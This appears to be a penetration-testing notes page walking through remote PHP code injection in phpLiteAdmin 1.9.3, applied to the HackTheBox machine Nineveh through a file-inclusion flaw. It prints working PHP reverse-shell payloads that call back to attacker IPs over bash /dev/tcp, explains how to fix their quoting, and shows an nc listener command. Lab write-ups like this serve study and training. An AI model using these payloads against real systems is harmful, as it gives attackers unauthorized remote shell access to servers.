






# 1.9.3 Remote PHP Code Injection
A description for the vulnerability can be found here:
https://www.exploit-db.com/exploits/24044In essence, you create a database with a
.php extension, write PHP code into one of the tables, and browse to the path of the
.php database to execute the code.
The images throughout the exploit don't work any more, but the author has a video demonstration of the exploit on YouTube.
https://www.youtube.com/watch?v=G1i5oWblx9QSummary1. Create a new .php database - e.g.
bears.php2. Create a table in that database - e.g.
tableTest3. In that table, create a new TEXT field containing a php reverse shell - e.g.
<?php exec("/bin/bash -c \"bash -i >& /dev/tcp/10.10.14.12/9001 0>&1\""); ?>4. Navigate back to your new database's home and check the database path - e.g.
/var/tmp/bears.php5. Browse to
/var/tmp/bears.php (usually by LFI or something) to activate your reverse shell/command execution
Examples• hackthebox Nineveh
• OSCP 10.11.116 - Dotty
## Example from hackthebox Nineveh
The exploit requires a bit of modification for it to work against this box.
The only way for us to browse to our created database is via the file inclusion found earlier on
http://10.10.10.43/department/manage.php.
We know that the file inclusion vuln will only include files named
ninevehNotes, so we have to name our database
ninevehNotes.php.
After that, the exploit the is more or less the same.
First, create a new database named
ninevehNotes.php.
Switch to the databse by clicking on it.
Create a new table in the databse with 1 field
Create a field in the table, with a Type of
TEXT, and set the Default Value to a simple php reverse shell that points to your attacking machine (credit goes here -
https://gist.github.com/rshipp/eee36684db07d234c1cc)
Original linked above -
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'"); ?>Modified version for phpLiteAdmin -
<?php exec("/bin/bash -c \"bash -i >& /dev/tcp/10.10.14.12/9001 0>&1\""); ?>When inserting the above php code into a sqlite table, the
' will get converted into
", which will cause your shell to fail.
You can either modify php code after it's been injected into the table via phpLiteAdmin, or simply escape the inner
" using
\.
Our PHP code has been "injected"!
To run the php code, we just need to browse to it.
On the phpLiteAdmin homepage you'll see that path to your database -
/var/tmp/ninevehNotes.phpStart a listener on your attacking machine to receive the shell
root@gotham:~/ctf/nineveh# nc -lvnp 9001
listening on [any] 9001 ...
And browse to the created .php database via the website to run your injected PHP code.